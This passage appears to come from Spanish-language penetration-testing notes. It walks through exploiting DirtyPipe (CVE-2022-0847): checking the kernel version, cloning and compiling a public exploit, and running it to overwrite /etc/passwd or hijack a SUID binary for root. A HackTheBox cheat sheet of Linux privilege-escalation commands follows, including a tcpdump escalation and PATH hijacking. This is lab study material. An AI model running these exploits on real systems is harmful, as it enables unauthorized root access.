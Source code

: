 	uname - r
	# Todas las versiónes desde 5.8 a 5.17  son vulnerables 
	```
- Descargamos e instalamos el exploit
	```bash
	git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
	cd CVE-2022-0847-DirtyPipe-Exploits
	bash compile.sh
	```
- Explotación 1 :  Modifica `/etc/passwd` y nos da un prompt con privilegios de root
	```bash
	./exploit-1
	```
- Explotación 2: Podemos ejecutar binarios SUID con privilegios de root. Después de elegir el binario SUID (supongamos sudo) ejecutamos el comando: 
	```bash
	./exploit-2 /usr/bin/sudo
	```

--- 
## Chuleta htb

| Command**                                                                           | **Description**                                       |
| ----------------------------------------------------------------------------------- | ----------------------------------------------------- |
| `ps aux \| grep root`                                                               | See processes running as root                         |
| `ps au`                                                                             | See logged in users                                   |
| `ls /home`                                                                          | View user home directories                            |
| `ls -l ~/.ssh`                                                                      | Check for SSH keys for current user                   |
| `history`                                                                           | Check the current user's Bash history                 |
| `sudo -l`                                                                           | Can the user run anything as another user?            |
| `ls -la /etc/cron.daily`                                                            | Check for daily Cron jobs                             |
| `lsblk`                                                                             | Check for unmounted file systems/drives               |
| `find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null`                       | Find world-writeable directories                      |
| `find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null`                       | Find world-writeable files                            |
| `uname -a`                                                                          | Check the Kernel versiion                             |
| `cat /etc/lsb-release`                                                              | Check the OS version                                  |
| `gcc kernel_expoit.c -o kernel_expoit`                                              | Compile an exploit written in C                       |
| `screen -v`                                                                         | Check the installed version of `Screen`               |
| `./pspy64 -pf -i 1000`                                                              | View running processes with `pspy`                    |
| `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`                     | Find binaries with the SUID bit set                   |
| `find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null`                     | Find binaries with the SETGID bit set                 |
| `sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root` | Priv esc with `tcpdump`                               |
| `echo $PATH`                                                                        | Check the current user's PATH variable contents       |
| `PATH=.:${PATH}`                                                                    | Add a `.` to the beginning of the current user's PATH |
| `find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null`                   | Search for config files                               |
| `ldd /bin/ls`                                                                       | View the shared objects required by a binary          |